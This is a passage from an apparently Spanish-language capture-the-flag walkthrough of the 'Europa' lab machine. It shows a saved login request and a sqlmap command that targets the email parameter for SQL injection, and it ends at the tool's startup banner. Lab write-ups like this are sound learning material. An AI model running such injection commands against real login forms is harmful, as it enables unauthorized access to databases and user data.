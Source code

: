 <img class="img" src="/assets/img/machines/Europa/6.png" width="800">
Podemos tambien usar sqlmap en la peticion para que este me encuentre la informacion contenida en la base de datos.
En mi caso guardare la peticion que se hace en el burpsuite sin la inyeccion en un archivo de texto.
```bash
cat req.txt 
POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
Cookie: PHPSESSID=ncqkkisttk0m4g6aq0pldo9gi6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: https://admin-portal.europacorp.htb
Referer: https://admin-portal.europacorp.htb/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=asas%40as.com&password=asas
```
Entonces empiezo a usar el sqlmap
```bash
sqlmap -r req.txt -p ‘email’ —threads 9 —batch --force-ssl
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:10:21 /2023-05-08/

```